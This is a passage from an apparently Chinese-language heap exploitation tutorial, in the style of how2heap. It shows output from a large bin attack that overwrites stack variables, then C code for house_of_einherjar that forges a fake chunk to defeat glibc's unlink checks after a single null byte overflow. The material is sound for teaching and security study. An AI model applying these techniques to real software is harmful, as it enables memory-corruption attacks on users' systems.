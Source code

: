 ```
Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk at the head of the large bin freelist. To overwrite the stack variables, we set "bk" to 16 bytes before stack_var1 and "bk_nextsize" to 32 bytes before stack_var2

Let's malloc again, so the freed third large chunk being inserted into the large bin freelist. During this time, targets should have already been rewritten:
stack_var1 (0x7fffffffdcc0): 0x6037a0
stack_var2 (0x7fffffffdcc8): 0x6037a0
```

## house_of_einherjar

Exploiting a single null byte overflow to trick malloc into returning a controlled pointer

> house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。
> 它要求有一个单字节溢出漏洞，覆盖掉 next chunk 的 size 字段并清除 PREV_IN_USE 标志，然后还需要覆盖 prev_size 字段为 fake chunk 的大小。

### 解释

首先我们申请一个 chunk

``` c++
	fprintf(stderr, "\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	fprintf(stderr, "a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);
```

为了覆盖 a，我们还需要知道对齐之后 a 的真实大小。

接下来构造一块 fake chunk：

``` c++
    // create a fake chunk
    fprintf(stderr, "\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    fprintf(stderr, "However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    fprintf(stderr, "We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    fprintf(stderr, "(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size (not used): %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n", fake_chunk[5]);
```
